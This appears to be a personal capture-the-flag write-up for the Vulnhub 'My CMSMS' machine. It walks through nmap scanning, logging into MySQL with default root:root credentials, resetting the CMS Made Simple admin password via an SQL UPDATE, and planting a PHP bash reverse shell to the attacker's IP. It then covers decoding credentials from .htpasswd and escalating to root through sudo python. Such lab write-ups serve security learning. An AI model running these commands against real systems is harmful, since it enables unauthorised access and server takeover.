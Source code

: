 ```yaml
---
title: Vulnhub - My CMSMS
description: My writeup on My CMSMS box.
categories:
 - vulnhub
tags: vulnhub cmsms MyCMSMS mysql shell python
---
```


![](https://pixelita.com/wp-content/uploads/2016/04/cmsms-logo-720.png)

Hi all, that was an awesome VM, easy but interesting.

You can find the machine there > [My CMSMS](https://www.vulnhub.com/entry/my-cmsms-1,498/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-30 00:15 EEST
Nmap scan report for mycmsms.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Home - My CMS
3306/tcp  open  mysql
```

Mysql allows remote connections, that's great! So mysql default credentials are `root:<no_password>` let's try that : 

```
$ mysql -u root -h $ip -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'xxxxx' (using password: NO)
```

Damn, then i had another idea to test for `root:root` : 

```
$ mysql -u root -h $ip -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 101
Server version: 8.0.19 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

## Admin's password change using mysql

That worked! Now on port 80 runs `CMS Made Simple` with mysql we can change admin's password! I found a great [guide](https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery){:target="_blank"}

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cmsms_db           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.007 sec)

MySQL [(none)]> use cmsms_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [cmsms_db]> show tables;
+--------------------------------+
| Tables_in_cmsms_db             |
+--------------------------------+
| ..junk tables..                |
| cms_userprefs                  |
| cms_users                      |
| cms_users_seq                  |
| cms_version                    |
+--------------------------------+
53 rows in set (0.004 sec)

MySQL [cmsms_db]> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email             | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
|       1 | admin    | fb67c6d24e756229aab021cea7605fb3 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
1 row in set (0.001 sec)

MySQL [cmsms_db]> 
```

Let's change his password now :

```
MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'pwned'))) where username = 'admin'
    -> ;
Query OK, 1 row affected (0.005 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Now we can login in, admin panel is under `/admin` -> `admin:pwned`

![](https://i.imgur.com/a6vuevX.png)

## Shell as www-data

Now i stucked for lot of minutes, i was like how the fuck can i take a reverse shell. Isn't wordpress/joomla or something similar after lot of enumeration and tries i found a way :D Follow my steps, this can be useful for future CTFs :)

![](https://i.imgur.com/9dQVENX.png)

![](https://i.imgur.com/rathhHr.png)

![](https://i.imgur.com/f28egNC.png)

Now we can see the results under : `http://$ip/index.php?page=user-defined-tags`

![](https://i.imgur.com/629oShV.png)

We can simply add a reverse shell now : 

```php
system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@mycmsms:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mycmsms:/var/www/html$ 
```

## www-data -> armour

Now privesc is really easy, under `/admin` we can see this :

```
www-data@mycmsms:/var/www/html/admin$ ls -la
ls -la
total 340
drwxr-xr-x  6 www-data www-data  4096 Jun 24 20:12 .
drwxr-xr-x 10 root     root      4096 May 31 04:09 ..
-rw-r--r--  1 www-data www-data   472 Mar 26 03:48 .htaccess
-rw-r--r--  1 www-data www-data    45 Jun 24 20:12 .htpasswd
```

`.htpasswd` contains a base64/base32 encoded string.

```
www-data@mycmsms:/var/www/html/admin$ cat .htpasswd
cat .htpasswd
TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=
www-data@mycmsms:/var/www/html/admin$ echo TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0= | base64 -d | base32 -d
armour:Shield@123

www-data@mycmsms:/var/www/html/admin$ su - armour
su - armour
Password: Shield@123

armour@mycmsms:~$ 
```

## armour -> root

Now if we check `sudo -l` we can see that we can run python as root : 

```
armour@mycmsms:~$ sudo -l
sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python
armour@mycmsms:~$ sudo python -c 'import pty; pty.spawn("/bin/bash")'
root@mycmsms:/home/armour# whoami;id
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Was fun, enjoyed a lot! :D

